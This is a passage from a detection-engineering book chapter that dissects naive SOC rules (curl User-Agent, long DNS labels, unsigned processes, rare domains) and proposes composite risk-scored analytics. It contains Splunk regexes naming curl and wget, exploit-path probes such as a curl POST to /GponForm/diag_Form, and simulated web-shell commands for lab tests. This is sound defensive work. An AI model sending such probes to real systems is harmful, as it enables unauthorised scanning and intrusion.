same capture's false-negative case in miniature.

> **Detection Autopsy — "curl in the User-Agent means it's an attacker"**
>
> **The rule:** Flags any inbound HTTP request whose User-Agent contains `curl`, `python-requests`, `wget`, or a similar scripting-library signature as automated attacker/scanner activity.
>
> **Why it shipped:** Real attacker tooling and mass internet scanners genuinely do send these signatures constantly, and it's a one-line string match with an obvious story: bare-`curl` traffic looks automated because it is automated.
>
> **How it failed:** `curl` and Python's request libraries are among the most common User-Agents in any environment's own legitimate traffic — health checks, CI/CD pipelines, internal service-to-service calls — and Figure 40.3 shows the exact collision: this lab's own authorized scanner fires the identical signature class the rule targets, in the same window as a real external `curl` hit. Scoped only to external traffic, the rule still can't distinguish a legitimate third-party health-check bot from a scanner; row `694`'s exploit-shaped request, meanwhile, carries no distinctive User-Agent at all and would sail through a rule built entirely around this one field.
>
> **The fix:** Treat the User-Agent as one weak signal contributing to a risk score, never a standalone verdict — combine it with destination/path rarity, request-path targeting (`/GponForm/diag_Form`-style exploit paths versus a normal application route), and volume/timing, and allowlist known-internal automation explicitly by source.

**[ANALYST]** **False positives:** Figure 40.3's rows `671`–`678` are the false-positive case with a timestamp — a single authorized internal source generating eight distinct "attacker-shaped" User-Agent hits in under a second, none of them malicious. Any rule alerting on the bare presence of a scripting signature, scoped to internal traffic at all, either drowns in exactly this kind of noise or has to carry a source allowlist that needs the same maintenance discipline as any other detection exception.

**[THREAT HUNTER]** **False negatives:** row `694` is the false-negative case in the same capture — a real, opportunistic exploit attempt against a known CVE path, carrying no scripting-library User-Agent signature at all. A rule built entirely around the User-Agent field is structurally blind to any client that either uses a normal browser-shaped string or simply doesn't bother spoofing anything distinctive, which describes a meaningful fraction of real internet-scale scanning traffic.

**[DETECTION ENGINEER]** **Missing context:** the naive rule has no notion of whether the requested path itself is suspicious (an exploit path versus the site root), no rarity scoring on the source (has this IP or ASN ever legitimately talked to this host before), and no allowlist distinguishing the estate's own automation from an external client presenting the same signature class.

**[DETECTION ENGINEER]** Part 14 described this fix conceptually in §9 but never shipped it as a numbered rule — the composite belongs here as `DET-40-01`, combining the User-Agent signal with the destination-rarity logic from Part 14 §3 and exploit-path targeting from Part 16 §8 (`DET-16-01`'s pattern).

CONCEPTUAL SAMPLE — illustrative Splunk SPL; combines three inputs already built elsewhere in the book into one risk-scored view over the honeynet's real schema (`src_ip`, `user_agent`, `path`, `method`).

```spl
index=honeynet sourcetype=http_events
| eval ua_scripted=if(match(user_agent, "(?i)curl|python-requests|wget|urllib|Snoopy|GT::WWW|HTTP::Lite"), 20, 0)
| eval path_exploit_only=if(match(path, "(?i)GponForm|\.env"), 40, 0)
| eval path_admin_generic=if(match(path, "(?i)/admin|wp-login"), 20, 0)
| lookup internal_source_allowlist src_ip OUTPUT is_internal
| eval ua_scripted=if(is_internal=="true", 0, ua_scripted)
| eval path_exploit_only=if(is_internal=="true", 0, path_exploit_only)
| eval path_admin_generic=if(is_internal=="true", 0, path_admin_generic)
| eval risk_score=ua_scripted + path_exploit_only + path_admin_generic
| where risk_score >= 40
```

Zeroing only `ua_scripted` for an allowlisted source is not enough: row `678` in Figure 40.3 is this lab's own internal scanner hitting `/admin`, so an allowlist that only suppresses the User-Agent term still lets the internal sweep cross the `>= 40` threshold on the path term by itself — reproducing the exact false positive the composite was built to remove. Every scored term has to be suppressed together for a source once it's confirmed internal and authorized, which is what the allowlist `eval` lines do for all three fields. Note what this does to Figure 40.3's own rows: `671`–`678` score `0` after the internal-source lookup zeroes out every term, while row `694` scores `40` on `path_exploit_only` alone — correctly flagging the actual exploit-shaped request that the naive rule would have missed for lacking a scripting User-Agent, and correctly ignoring the internal fingerprint sweep even where that sweep touches a path (`/admin`) that looks exploit-shaped in isolation.

`path_exploit_only` and `path_admin_generic` are split into two weight classes, not one, because they are not the same claim. `GponForm` and `.env` have no legitimate reason to ever appear in a real request, so a match there can stand alone at 40 points. `/admin` and `wp-login` are real, frequently-hit paths on production sites with actual admin panels and CMS logins — scoring them identically to a CVE-specific exploit path would let ordinary customer or employee logins cross the alerting threshold by themselves the moment this composite is pointed at a real site instead of a honeypot with no legitimate traffic on those paths at all. Capping the generic-admin-panel class at 20 points means it needs a second signal (a scripted User-Agent, or another term this composite doesn't yet carry) to reach the threshold.

> **Blind Spot**
> Suppressing every term for an allowlisted source means this composite has no visibility at all into an attacker who compromises the internal scanning host itself (or spoofs its source IP on a network where that's possible) — every request from that address scores zero regardless of path or User-Agent, by construction. That is a deliberate tradeoff to kill the false-positive volume in Figure 40.3, not a free fix; treat the allowlist entry itself as a detection exception with an owner and a review date (TERMINOLOGY.md §"Exception"), and monitor the scanning host's own endpoint telemetry through a separate detection rather than assuming this composite covers it.

> **False Positive Trap**
> A plain browser hitting `/wp-login.php` or `/admin` with no scripted User-Agent scores 20 points under `path_admin_generic` alone — below the 40-point threshold, and correctly so, since that is exactly what a legitimate customer or employee login looks like on a real site. The failure mode this box exists to head off is a future edit that "simplifies" the query by folding `path_admin_generic` back into the same 40-point bucket as `path_exploit_only` — that single change reintroduces a standalone alert on every ordinary admin-panel visit from an unlisted source, at whatever volume the site's real login traffic runs. Keep the two path classes at different weights; do not raise `path_admin_generic` to close what looks like a coverage gap, since that gap is closed by requiring a second signal, not by matching this term alone.

> **Detection Test**
> **Setup:** A lab-controlled HTTP endpoint with request logging, and network access from both an "internal-allowlisted" test source and an unlisted source.
> **Action:** From the unlisted source, send three requests: `curl -X POST http://<test-endpoint>/GponForm/diag_Form` (exploit-only path, scripted UA); a plain-browser-UA `GET http://<test-endpoint>/wp-login.php` with no scripted UA (simulating a real login); and `curl http://<test-endpoint>/wp-login.php` (scripted UA plus the generic admin path together). From the allowlisted source, send `curl http://<test-endpoint>/admin`.
> **Expected result:** The `GponForm` request scores 40 on `path_exploit_only` alone and crosses the threshold. The plain-browser `wp-login.php` request scores 20 (`path_admin_generic` only) and does not alert — this is the fix for the production false-positive case above. The scripted-UA `wp-login.php` request scores 40 (20 UA + 20 generic-path) and crosses the threshold. The allowlisted source's `/admin` request scores 0 across every term and does not alert.

> **Silent Failure Check**
> This composite depends on three things staying healthy at once: the honeynet's own `http_events` ingestion, the `internal_source_allowlist` lookup table being current, and the regex patterns in `ua_scripted`/`path_exploit_only`/`path_admin_generic` actually matching the traffic seen. A stale allowlist just produces more false positives — loud, not silent — but a broken or empty `http_events` feed, or a lookup failure that defaults `is_internal` to blank instead of `"false"`, produces zero scored rows with no error, indistinguishable from "no traffic today." Monitor raw inbound-request volume from the collector independently of this query's own output as the health check.

**[DETECTION ENGINEER]** **Result:** the naive User-Agent-substring rule sits at PARTIAL DETECTION for external-only deployments (it catches lazy scanners, misses spoofed and unspoofed-but-targeted requests alike, per row `694`) and effectively NO VISIBILITY once internal automation is in scope, since the false-positive rate forces most teams to disable it for internal traffic entirely. `DET-40-01`'s composite reaches RELIABLE DETECTION for exploit-path-targeted requests regardless of User-Agent honesty, and MULTI-SOURCE DETECTION once composed with the honeynet's own session-correlation logic (Part 14 §2.2's `possible_success` escalation, which independently confirmed several of the real sessions in this same capture window as worth analyst review).

**MITRE:** T1595 (Active Scanning), T1595.002 (Active Scanning: Vulnerability Scanning), T1190 (Exploit Public-Facing Application).

---

## 6. "Long DNS label = tunnel" (Part 15)

**[CONCEPT]** Part 15 §1 seeded this rule and named legitimate causes for long, high-entropy-looking labels: ACME certificate-issuance tokens, CDN cache-busting hostnames, mobile-analytics session identifiers. This section restates the autopsy and adds the comparison table that makes the discriminating logic concrete.

> **Detection Autopsy — "long DNS label = tunnel"**
>
> **The rule:** Fires on any DNS query whose subdomain label exceeds a fixed character-length threshold.
>
> **Why it shipped:** DNS tunnelling tools genuinely encode data into subdomain labels, a long label is visually obvious in a raw query sample, and `len(query) > N` requires no baseline, no historical data, and no entropy math.
>
> **How it failed:** ACME's DNS-01 challenge routinely writes a 40+ character base64 token into an `_acme-challenge` subdomain; CDNs and SaaS platforms route multi-tenant traffic through account-ID- or content-hash-prefixed hostnames; mobile analytics SDKs embed device/session identifiers into telemetry subdomains. All of these trip a bare length filter with zero attacker involvement, and the rule either drowns in vendor-by-vendor exclusions or gets tuned so far up it stops catching short, chunked tunnel encodings.
>
> **The fix:** Combine label length with entropy, subdomain fan-out under one apex domain, and query-type skew into one composite score — no single signal alone.

**[ANALYST]** **False positives:** every legitimate cause named above shares one property — a long or high-entropy-looking label appearing as an isolated, low-frequency event under a well-established apex domain the resolver has seen thousands of times before. A length-only rule cannot see that context; it sees the label and nothing else.

**[DETECTION ENGINEER]** **False negatives:** a tunnel implementation using shorter, chunked labels — splitting the same payload across more, shorter subdomain segments specifically to stay under a known length threshold — defeats a length-only rule completely while carrying the same total encoded-data volume, since nothing about the underlying protocol requires any single label to be long.

**[DETECTION ENGINEER]** **Missing context:** the naive rule has no entropy measurement (a long dictionary-word-based hostname reads very differently from a long base32 blob at the character-distribution level), no subdomain-fan-out count under the same apex (a tunnel issues many distinct labels per apex in a short window; a one-off ACME challenge issues one), and no query-type awareness (tunnels lean on `TXT` and `NULL` record types disproportionately, since those carry more response payload than `A`/`AAAA`).

**[DETECTION ENGINEER]** The revised analytic is `DET-15-05` (Part 15 §9.2): a composite Splunk score combining precomputed label entropy, subdomain fan-out under one apex, and query-type skew, none of which alone crosses the alerting threshold. Table 40.2 makes the discrimination concrete using the same signal set.

Table 40.2 supports the claim above: no single column reliably separates the legitimate long-label cases from tunnel behavior, but the combination does.

| Source | Label length | Entropy | Fan-out under one apex | Query-type skew |
|---|---|---|---|---|
| ACME DNS-01 challenge (CONCEPTUAL SAMPLE) | Long | High | One-off, single label | Normal (`A`/`TXT`, once) |
| CDN cache-busting hostname (CONCEPTUAL SAMPLE) | Long | Medium | Low, spread across many apexes | Normal |
| Mobile analytics SDK identifier (CONCEPTUAL SAMPLE) | Medium-long | Medium | Low per-apex | Normal |
| DNS tunnel, long-label variant (CONCEPTUAL SAMPLE) | Long | High | High, sustained, one apex | `TXT`/`NULL`-heavy |
| DNS tunnel, chunked/short-label variant (CONCEPTUAL SAMPLE) | Short | High per label | Very high, sustained, one apex | `TXT`/`NULL`-heavy |

> **Blind Spot**
> Fan-out is measured *under one apex domain*. An attacker rotating through many cheap, disposable apex domains — the same domain-generation-algorithm pattern already used to evade blocklists — keeps per-apex fan-out low even at high total tunnel volume, because the composite never aggregates fan-out across apexes for the same source. `DET-15-05` as described has no source-keyed fan-out count to catch that variant; it only counts fan-out per apex, which an attacker who controls the apex list can keep arbitrarily low.

> **Detection Test**
> **Setup:** A lab-controlled DNS resolver with full query-string logging enabled, and a test apex domain with no prior query history.
> **Action:** From a test host, issue 50+ queries in a short window against distinct, high-entropy subdomains under the test apex, in two batches: a long-label batch (40+ character base64-style labels) and a chunked/short-label batch (8-character labels, more of them, same total encoded payload), both using TXT queries. Separately issue one isolated, low-entropy, dictionary-word-label A-record query against the same apex as a benign control.
> **Expected result:** Both the long-label and chunked batches score above threshold on the combination of high entropy, high fan-out under the single test apex, and TXT-heavy query-type skew, confirming label length isn't load-bearing for detection. The benign control query scores below threshold, confirming the composite doesn't fire on an isolated normal-looking lookup.

> **Silent Failure Check**
> `DET-15-05` depends on the DNS logging pipeline capturing full query strings, not just counts or the top-domain summaries some resolvers ship by default, and on the entropy/fan-out precompute job actually running on schedule against that log. A resolver reconfigured to log only aggregate statistics, or a precompute job that fails silently and stops updating its output table, both produce a composite that never scores anything above zero, with no visible difference from an estate with no tunnelling activity. Monitor total DNS query-log volume and the precompute job's last-successful-run timestamp as health metrics independent of this rule's own alert count.

**[DETECTION ENGINEER]** **Result:** the naive length-only rule provides PARTIAL DETECTION against the least sophisticated tunnelling tools and effectively NO VISIBILITY against a chunked variant, at a false-positive cost that most programs tune away long before either matters. `DET-15-05`'s composite score reaches RELIABLE DETECTION for both the long-label and chunked variants shown in Table 40.2, since fan-out and query-type skew survive the chunking change even though label length doesn't; it remains blind to tunnelling over DoH/DoT paths that bypass the monitored resolver entirely, which Part 15 names as a standing gap for its own hunt program (`HUNT-15-02`), not a failure this composite rule can absorb.

**MITRE:** T1071.004 (Application Layer Protocol: DNS).

---

## 7. "Unsigned process = malware" (Part 11 / Part 16)

**[CONCEPT]** This rule was seeded twice — as a general cross-OS rule in Part 11 §2, and as a web-shell-specific variant in Part 16 §6.1 that explicitly deferred its fix back to Part 11's process-lineage model. Both versions share the same underlying mistake, so this section dissects them together.

> **Detection Autopsy — "unsigned process = malware"**
>
> **The rule:** Fires on any process whose binary lacks a valid code-signing signature (Part 11's general form), or specifically on any unsigned process spawned by a web-server binary (Part 16's web-shell-scoped form).
>
> **Why it shipped:** Real malware is frequently unsigned, and "check the signature" is a one-line condition that reads cleanly to a review board — "if it's not signed, we don't trust it" — and a hand-built test payload trips it every time in a demo.
>
> **How it failed:** Enormous volumes of legitimate software are unsigned — in-house tools, most PowerShell scripts, one-off IT scripts, open-source utilities, CGI helpers a real web application deploys through its own server process during normal operation. Meanwhile, real post-exploitation overwhelmingly reaches for binaries that are already present and already signed (`/bin/sh`, `cmd.exe`, `powershell.exe`, `curl`) once an initial unsigned foothold — the web shell itself, in Part 16's case — is already running; the rule flags the wrong artifact on both ends.
>
> **The fix:** Detect the parent-child *relationship*, not the child's signature status — a lineage tier model (Part 11 §2) for the general case, and a web-server-spawns-shell-interpreter rule (Part 16's `DET-16-04`) for the web-shell-specific case. Signature status becomes one input that raises or lowers a lineage tier, never a standalone verdict.

**[ANALYST]** **False positives:** on a several-thousand-endpoint estate, dozens to hundreds of daily alerts fire on legitimate unsigned software — the exact volume that trains analysts to reflexively close "unsigned" alerts without reading them, which TERMINOLOGY.md's Alert Fatigue entry names directly as the mechanism that lets a genuinely malicious instance slip through unexamined the next time the same signal fires.

**[DETECTION ENGINEER]** **False negatives:** this is the more damaging half. Real post-exploitation activity — a web shell spawning `/bin/sh`, an attacker using `powershell.exe` or `curl` already present on the box — uses exclusively signed, legitimate system binaries once the initial unsigned artifact has already run. A signature-status check never evaluates true for any of that activity, which is a structural miss, not a tuning gap: the rule is checking the wrong process's property for the behavior it claims to detect.

**[DETECTION ENGINEER]** **Missing context:** the naive rule has no parent-process context at all — it treats every unsigned binary identically regardless of what spawned it. It's missing whether the parent-child pair itself is expected, rare, or never-before-seen (Part 11's lineage tiers), and, for the web-specific variant, whether the child process is a shell/script interpreter that a healthy web server almost never spawns as part of serving a request.

**[DETECTION ENGINEER]** The revised analytics are `DET-11-01` (WINWORD-to-PowerShell lineage) and `DET-11-02` (LOLBin-to-shell lineage) for the general cross-OS case, built on the four-tier Expected/Rare/Suspicious/Highly Suspicious model in Part 11 §2 (Figure 11.1), and `DET-16-04` (web-server process spawning a shell or script interpreter) for the web-shell-specific case Part 16 §6.1 seeded. In the tier model, signature status shifts a pair's tier rather than firing alone: an unsigned binary on an Expected lineage stays Expected; an unsigned binary on a Suspicious or Highly Suspicious pair raises that pair's tier further.

> **False Positive Trap**
> "A healthy web server almost never spawns a shell or script interpreter" is not true of every real deployment. PHP-driven CMS platforms routinely shell out to `convert` (ImageMagick), `ffmpeg`, or `git` for image processing, media transcoding, and plugin/theme updates, and certificate-renewal hooks (Certbot and other ACME clients) or backup scripts often run from the same web-server account on a cron trigger. Each of those is a web-server process spawning a shell or interpreter with zero attacker involvement, and lands on a Suspicious or Highly Suspicious lineage tier under a version of this check that assumes the claim above holds universally. `DET-16-04` needs an explicit, per-application allowlist of the specific parent-child pairs a given site's normal operation produces — enumerated for that application, not assumed universal across every web server — or it inherits the same alert-fatigue failure mode the unsigned-process rule it replaced was built to fix.

> **Engineering Reality**
> Code-signing verification itself has a cost most naive-rule designs never account for: validating a certificate chain against a live revocation service (OCSP/CRL) on every process-creation event adds latency and a network dependency to a hot path, which is one reason EDR vendors cache signature-validation results rather than checking live on every event — a cached "signed" result can go stale if a certificate is revoked *after* the check ran, and a rule built on raw signature status inherits that staleness silently.

> **Detection Test**
> **Setup:** A lab host with process-creation logging enabled (Sysmon Event ID 1 or the EDR equivalent), covering both a test web-server process and an unrelated, already-Expected-tier parent (e.g., a normal admin login shell).
> **Action:** From the test web-server process, spawn a shell interpreter directly (e.g., sh -c 'id' or cmd.exe /c whoami) to simulate a web-shell-triggered command; from the admin-login shell, spawn the same interpreter. Repeat the web-server test once more using an allowlisted parent-child pair for that application (e.g., its own Certbot renewal hook).
> **Expected result:** The web-server-to-shell pair classifies at Suspicious or Highly Suspicious lineage tier per Part 11 §2's model, regardless of whether the spawned binary is signed. The admin-login-shell-to-shell pair classifies at Expected tier. The allowlisted Certbot-hook pair also classifies at Expected tier, confirming the per-application allowlist from the False Positive Trap box above suppresses the specific pair it's meant to, without suppressing the unrelated web-shell simulation.

> **Silent Failure Check**
> This entire family of rules depends on process-creation telemetry (Sysmon Event ID 1 or the EDR equivalent) reaching the SIEM for every host in scope. An agent crash, a Sysmon configuration reverted to a default with process-creation logging disabled, or a forwarder silently dropping that event type all produce zero lineage evaluations with no error, indistinguishable from "no suspicious process activity." Monitor total process-creation event volume per host as its own baseline, separate from this rule's match count; a host that stops producing Event ID 1 entirely is a logging failure, not a quiet host.



**Figure — Process-creation event showing an unsigned child binary spawned by a web-server process.** *CONCEPTUAL — illustrative field breakdown; not a captured screenshot.* Shows the corresponding lineage-tier classification the revised model assigns it, per Part 11 §2's tier scheme. This book's lab evidence is Linux/Proxmox-based with no isolated host built specifically to run a deliberate web-shell test; a real fired-alert capture supporting `DET-16-04`'s description in Part 16 §6.1 is deferred to whichever contributor owns that lab build.

**[DETECTION ENGINEER]** **Result:** the naive signature-only rule sits at PARTIAL DETECTION at best for the general case (it catches unsophisticated custom-tool drops and nothing that reuses signed system binaries) and effectively NO VISIBILITY for the specific post-exploitation activity — signed LOLBin abuse — that a real intrusion actually depends on. The lineage-tier model plus `DET-11-01`/`DET-11-02`/`DET-16-04` reaches RELIABLE DETECTION for the specific worked patterns Part 11 §2.3 documents, and remains at PARTIAL DETECTION against reflective DLL loading and other injection primitives that never produce the process-creation event this whole family of rules keys on — Part 11 §5 names that gap directly rather than absorbing it silently.

**MITRE:** T1036.001 (Masquerading: Invalid Code Signature), T1218 (System Binary Proxy Execution), T1505.003 (Server Software Component: Web Shell).

---

## 8. "Rare domain = malicious" (Part 32)

**[CONCEPT]** Part 32 (Threat Intelligence in Detection) had not shipped at the time this part was written. This section treats its seeded naive rule honestly on that basis: the naive form and its general failure mode are well-established enough in the threat-intel literature that this section describes them with confidence, while the specific revised-analytic shape is presented as this chapter's own composite, built from Part 32's stated scope in `BOOK-INDEX.md` ("reputation, confidence scoring, indicator age, first/last-seen, infrastructure role, prevalence, local context") rather than cited from a rule ID that doesn't exist yet. Treat the fix below as illustrative of the shape the fix takes, not as a claim about Part 32's eventual exact implementation.

> **Detection Autopsy — "rare domain equals malicious"**
>
> **The rule:** Fires on any DNS resolution or outbound connection to a domain that has never been observed before in the environment's own historical traffic, or that a threat-intel feed flags as low-prevalence globally.
>
> **Why it shipped:** Genuinely malicious infrastructure often is newly registered or low-prevalence, "first time we've ever seen this domain" is a one-line lookup against a first-seen table, and it requires no understanding of what the domain actually does — just that it's new.
>
> **How it failed:** Every legitimate new vendor relationship, every newly provisioned SaaS tenant subdomain, every marketing microsite, and every employee's first visit to any personal or niche site the organization has simply never happened to touch before all produce a "never seen before" hit with zero attacker involvement — on a large, diverse estate, first-seen domains are a routine, high-volume, mostly-benign event category, not a rare one. Meanwhile, a large share of real C2 and phishing infrastructure deliberately rides on domains that are *not* rare at all — compromised legitimate WordPress sites, abused file-sharing and URL-shortener services, and popular cloud-storage platforms already globally prevalent — which the rarity check never flags because rarity is the wrong axis for that infrastructure entirely.
>
> **The fix:** Treat rarity as one input to a confidence score alongside indicator age, infrastructure role (is this a bulletproof host, a compromised legitimate site, a CDN edge shared by thousands of unrelated tenants), and local context (has this org's own traffic to related infrastructure ever looked benign before) — never a standalone verdict on its own.

**[ANALYST]** **False positives:** a "never seen before" flag correlates more strongly with normal business growth and normal human browsing diversity than with attacker activity on any reasonably active, diverse estate — this is the direct domain-name analogue of TERMINOLOGY.md's warning against bare, unqualified "coverage" claims: bare rarity is an incomplete signal in exactly the same way bare "coverage" is an incomplete sentence.

**[THREAT HUNTER]** **False negatives:** infrastructure abuse built specifically to avoid looking rare — a compromised legitimate site with years of benign history, a widely-used file-sharing or URL-shortener service, a CDN edge shared with thousands of unrelated legitimate tenants — defeats a rarity-only check entirely, because none of that infrastructure is actually rare by the measure the rule uses. This is the same durability argument TERMINOLOGY.md's IOC-vs-IOA-vs-TTP entry makes about artifacts generally: a domain-reputation signal this narrow degrades the moment an attacker picks infrastructure that doesn't need to be rare to work.

**[DETECTION ENGINEER]** **Missing context:** the naive rule has no indicator-age dimension (a domain registered yesterday reads very differently from one that's been resolving quietly for three years), no infrastructure-role classification (a bulletproof-hosted VPS is a different claim than a CDN edge IP shared across thousands of tenants), and no local-context weighting (has *this* organization's own traffic to related ASNs or TLDs historically been benign) — all three are exactly what Part 32 scopes as its subject matter.

**[DETECTION ENGINEER]** As a composite in this chapter's own synthesis terms — `DET-40-02` — the shape a rarity-plus-confidence fix takes, illustrating the ingredients rather than a shipped rule:

CONCEPTUAL SAMPLE — illustrative composite; anticipates the shape of a fix Part 32 will build in full detail, not a citation of an existing rule.

```text
domain_is_first_seen_in_environment (weak signal, contributes a small score)
  + domain_age_days < 30 (contributes a larger score — most legitimate business
      relationships don't start on a domain registered last week)
  + infrastructure_role != "shared_cdn_or_hosting_edge" (contributes a score;
      a domain sharing an IP with thousands of unrelated tenants is a weaker
      standalone signal than one resolving to dedicated, single-tenant infrastructure)
  + no_prior_benign_local_context (contributes a score; an internal allowlist of
      known-benign new-vendor domains, reviewed like any other detection exception,
      suppresses this term)
  => composite confidence score; alert only above a threshold, per Part 33's
     general risk-based alerting mechanism
```

> **What Would Change My Mind**
> This section's claim — that rarity alone is too weak to alert on, and needs age/infrastructure-role/local-context alongside it — rests on the general threat-intel literature's treatment of indicator durability (TERMINOLOGY.md's IOC vs. IOA vs. TTP entry) rather than on a validated false-positive rate measured against this book's own lab telemetry, since no rare-domain rule has been run against real lab traffic for this section. If Part 32, once written, measures a materially lower false-positive rate for rarity-alone than the general literature suggests — for example, in an estate narrow and stable enough that "never seen before" genuinely is rare — this section's "never a standalone verdict" claim would need to soften to "rarely a standalone verdict, verify against your own estate's actual first-seen rate before assuming this generalizes."

> **Detection Test**
> **Setup:** Once built, this composite would need a lab DNS/proxy log with four controlled test domains: one registered the same day, one long-standing but never queried by this estate before, one resolving to a known shared-CDN/hosting IP range, and one on an internal new-vendor allowlist.
> **Action:** Generate a first-seen resolution event for each of the four test domains.
> **Expected result:** The newly-registered, non-shared-infrastructure, non-allowlisted domain scores highest and crosses threshold; the long-standing-but-first-seen-locally domain scores low (the age term suppresses it); the shared-CDN-IP domain scores lower still despite being newly seen (the infrastructure-role term suppresses it); the allowlisted new-vendor domain scores at or near zero (the local-context term suppresses it). This test is deferred until Part 32 ships a working indicator-age and infrastructure-role data source; the sketch above has no running implementation to test yet.

> **Silent Failure Check**
> Once implemented, this composite would depend on at least three external feeds staying current: domain-age/WHOIS lookups, infrastructure-role classification, and the local-context allowlist. Any one going stale or failing open, returning "unknown" instead of erroring, would silently shift weight onto whichever terms still resolve, changing the composite's effective threshold with no visible error. Part 32 needs to name that degradation path explicitly when it ships this analytic in full; the version sketched here is illustrative only and has no monitoring built for it.

**[DETECTION ENGINEER]** **Result:** the naive rarity-only rule, judged against the general pattern this section describes, would sit at PARTIAL DETECTION for unsophisticated, freshly-registered infrastructure and NO VISIBILITY against infrastructure abuse that deliberately avoids being rare. A confidence-scored composite of the kind sketched above would target RELIABLE DETECTION to MULTI-SOURCE DETECTION once combined with the local-context and infrastructure-role inputs Part 32 is scoped to build — stated here as a target, not a validated result, per the What Would Change My Mind box above.

**MITRE:** This section speaks generally rather than forcing a single tenuous mapping, per STYLE-GUIDE.md §5 — "rare domain" is a prevalence/confidence signal that feeds detection of several different techniques rather than being one itself. Where the underlying traffic is C2 callback behavior, T1071 (Application Layer Protocol) is the relevant technique; where the concern is the attacker's own infrastructure choice rather than the victim-side detection, T1583.001 (Acquire Infrastructure: Domains) describes the adversary-side action this signal is trying to notice the effects of.

---

## 9. The pattern underneath all seven

**[SOC MANAGEMENT]** Table 40.1 already stated the finding; Figure 40.4 shows why it holds structurally, not just as an observation about these seven examples. Every fix in this chapter takes one or more individually weak signals and either compares them against an entity-specific baseline, joins them to another weak signal across a bounded window, or weights them by an external confidence input — then sums the result into a single score, alerting only when that score crosses a threshold. This is Part 33's risk-based alerting mechanism, described here at the level of "why every naive-rule fix in this book keeps reinventing the same three-ingredient shape" rather than "how to build a risk score" — for that, see Part 33 directly.





**Figure 40.4 — The generalized architecture every revised analytic in this chapter shares (FIG-40-04).** *CONCEPTUAL.* Illustrates that `DET-10-02`, `DET-12-02`–`04`, `DET-40-01`, `DET-15-05`, `DET-11-01`/`02`/`DET-16-04`, and `DET-40-02` are seven surface-level implementations of the identical underlying shape: weak signals in, composite score out, alert only above threshold, contributing signals attached for triage rather than discarded. This is a synthesis sketch drawn from the seven case studies in this chapter, not a capture of any single running system.

**[SOC MANAGEMENT]** The staffing and process consequence of this pattern is direct: a review board that keeps approving single-field rules because they're "cheap to write and easy to explain" is optimizing for the wrong cost. The naive version of every rule in this chapter *looked* cheap at design time and was expensive in practice — in analyst hours spent triaging false positives, in alert fatigue that made the eventual real positive harder to catch, and in the false confidence of believing a behavior area had coverage when it had, at best, PARTIAL DETECTION with a bypass an attacker could find by reading the same public writeups the rule's designer read. A design-review checklist that asks "what baseline, correlation, or confidence input does this rule depend on, and what happens with none of the three" would have caught every naive rule in this chapter before it shipped.

> **What Would Change My Mind**
> This chapter's central claim is that all seven naive-rule failures reduce to the same three missing ingredients, and that no fourth ingredient shows up anywhere in this book's fixes. If a future part's Detection Autopsy box named a naive rule whose fix genuinely required something outside baseline, correlation, and confidence/rarity — a new category this chapter didn't anticipate — that would be evidence the three-ingredient model in Table 40.1 is a description of this book's own seven examples rather than a general law of naive-rule failure, and this section's framing should be revised from "the pattern" to "the pattern observed in this book's seven seeded cases."

---

## 10. Where this part stops

**[CONCEPT]** This part does not cover: the detailed mechanics of baselining (Part 31), correlation-engineering (Part 30), threat-intelligence confidence scoring (Part 32), or risk-based alerting (Part 33) — each of those is cited here by name and ID, never re-derived, because re-deriving them here would duplicate content this book already owns in one place per part. It does not introduce an eighth naive rule, and it does not claim final, validated results for the two composites (`DET-40-01`, `DET-40-02`) it mints — both are marked CONCEPTUAL SAMPLE and neither has been replayed against a false-positive corpus at production scale; treat them as a synthesis-level illustration of the fix shape, not a rule ready to deploy unmodified.

**Detection ledger for this part:** `DET-40-01` (curl/scripting-User-Agent + destination-rarity + exploit-path composite, synthesizing Part 14 §9's conceptual fix with `DET-16-01`'s path-targeting pattern), `DET-40-02` (rarity + indicator-age + infrastructure-role + local-context composite, anticipating Part 32's scope). Every other revised analytic discussed in this part is cited by its original ID and belongs to the part that built it: `DET-10-02`, `DET-11-01`, `DET-11-02`, `DET-12-02`, `DET-12-03`, `DET-12-04`, `DET-15-05`, `DET-16-04`.

**Figure ledger for this part:** `FIG-40-01` (naive-rule lifecycle, CONCEPTUAL), `FIG-40-02` (real SSH failed-auth burst, REAL LAB EXAMPLE), `FIG-40-03` (real honeynet curl/scripting User-Agent capture, REAL LAB EXAMPLE), `FIG-40-04` (generalized composite architecture, CONCEPTUAL). The Event ID 4104 field breakdown in §2 and the unsigned-process lineage field breakdown in §7 are both rendered as CONCEPTUAL illustrative breakdowns rather than captured screenshots, since a real capture for either still targets CONTROLLED LAB EXAMPLE and remains blocked on Windows-lab infrastructure this book's current home-lab evidence set does not include.

**MITRE coverage summary for this part:** T1059.001 (PowerShell), T1110/T1110.001 (Brute Force/Password Guessing), T1078/T1078.004 (Valid Accounts/Cloud Accounts), T1595/T1595.002/T1190 (Active Scanning/Vulnerability Scanning/Exploit Public-Facing Application), T1071.004 (Application Layer Protocol: DNS), T1036.001/T1218/T1505.003 (Masquerading: Invalid Code Signature/System Binary Proxy Execution/Web Shell), T1071/T1583.001 (Application Layer Protocol/Acquire Infrastructure: Domains). None of these are new mappings — every one was already introduced, with the same ID, in the part that owns the underlying analytic.
